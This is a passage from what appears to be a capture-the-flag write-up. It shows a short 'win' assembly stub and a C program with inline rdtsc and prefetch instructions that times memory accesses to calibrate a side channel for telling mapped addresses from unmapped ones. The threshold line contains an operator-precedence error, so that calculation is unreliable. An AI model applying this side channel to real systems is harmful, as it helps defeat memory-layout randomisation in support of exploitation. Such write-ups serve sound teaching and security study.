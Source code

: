 ```asm
    win:
        mov edi,0x1
        mov edx,0x60

        xor eax,eax
        mov al,SYS_write
        syscall
```

## The Threshold Parameter
We can utilise the _practise mode_ to get a good idea for the threshold value by running this program remotely:

```c
#include <stdint.h>
#include <stdio.h>
#include <sys/mman.h>

uint32_t prefetch_time(uint64_t addr);
uint32_t prefetch_time_multiple(uint64_t addr);

#define RANDOM_INVALID_ADDRESS (uint64_t)0xdeadbeef
#define LOOP_ITERATIONS 0x10

int main(){
    uint64_t map = (uint64_t)mmap(NULL, 0x1000, PROT_READ | PROT_WRITE , MAP_PRIVATE | MAP_ANON | MAP_POPULATE, -1, 0);
    *(int*)map = 123456;    // write something to the map so it's guarnteed to be backed by a physical map

    uint32_t prefetch_on_valid_map   = prefetch_time_multiple(map);
    uint32_t prefetch_on_invalid_map = prefetch_time_multiple(RANDOM_INVALID_ADDRESS);

    printf("prefetch_on_valid_map:%04d\n",  prefetch_on_valid_map);
    printf("prefetch_on_invalid_map:%04d\n",prefetch_on_invalid_map);
    printf("threshold:%04d\n",(uint32_t)(prefetch_on_valid_map+prefetch_on_invalid_map/2));
}

uint32_t prefetch_time_multiple(uint64_t addr){
    uint32_t sum=0;
    for (int i=0;i<LOOP_ITERATIONS;i++)
        sum+= prefetch_time(addr);
    return sum;
}

__attribute__((optimize("O3")))
uint32_t prefetch_time(uint64_t addr){
    asm volatile(    
        "rdtsc;"
        "mov esi,eax;"
        "lfence;"
        
        "prefetchnta     [%0];"
        "prefetcht2      [%0];"
        "prefetcht1      [%0];"
        "prefetcht0      [%0];"

        "lfence;"
        "rdtsc;"
        "sub eax,esi;"
        ::"r"(addr):"rsi","rax"
    );
}
```